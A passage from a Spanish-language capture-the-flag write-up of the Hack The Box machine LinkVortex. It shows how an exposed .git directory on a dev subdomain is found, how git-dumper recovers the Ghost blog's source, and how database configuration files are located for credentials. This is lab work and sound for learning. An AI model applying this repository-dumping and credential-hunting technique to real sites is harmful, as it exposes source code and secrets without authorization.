 ```console
301      GET        7l       20w      239c http://dev.linkvortex.htb/.git => http://dev.linkvortex.htb/.git/
```

En estos casos, si está completamente expuesto el repositorio del proyecto, podríamos con `git-dumper` recuperar el proyecto en si y analizar el código fuente en busca de algo interesante.
```console
git-dumper http://dev.linkvortex.htb/.git/ dev.linkvortex.htb
[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
...
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.pack [200]
[-] Running git checkout .
Updated 5596 paths from the index
```

Y podemos ver que hemos recuperado el código fuente de la aplicación que tiene pinta de que es el blog hosteado en el dominio principal.
```console
➜  dev.linkvortex.htb git:(v5.58.0) ✗ ls
apps  Dockerfile.ghost  ghost  LICENSE  nx.json  package.json  PRIVACY.md  README.md  SECURITY.md  yarn.lock
```

Investigando un poco, `Ghost` utiliza `knex` que es una librería para construir sentencias SQL, una especie de ORM, en `knex` tienes que pasar las credenciales de la base de datos a un archivo de configuración en javascript.

Analizando el código fuente vemos que se incluyen archivos de configuración para la conexión a la base de datos en `ghost/core/server/config/`
![Write-up Image](images/Screenshot_4.png)
